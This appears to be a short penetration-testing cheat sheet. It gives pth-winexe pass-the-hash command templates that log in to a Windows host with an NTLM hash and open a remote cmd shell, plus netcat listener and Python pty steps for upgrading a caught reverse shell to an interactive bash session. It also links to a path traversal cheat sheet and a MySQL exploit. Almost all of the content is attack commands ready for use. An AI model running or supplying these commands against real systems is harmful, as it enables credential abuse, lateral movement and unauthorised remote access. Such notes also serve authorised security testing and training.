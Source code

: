 
#### Path traversal cheatsheet files
https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/

#### Pass the hash login
First is a empty LM HASH, last one should work as well.
```
pth-winexe -U <USERNAME>%aad3b435b51404eeaad3b435b51404ee:<NTLM HASH> //<IP> cmd
pth-winexe -U <USERNAME>%<LM HASH>:<NTLM HASH> //<IP> cmd
pth-winexe -U <USERNAME>%:<NTLM HASH> //<IP> cmd
```

#### Mysql raptor exploit but better
https://www.exploit-db.com/exploits/46249

#### Bash fully interactive shell
```
Start without tmux a /bin/bash shell
nc -lvp <PORT>
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
export TERM=screen
```
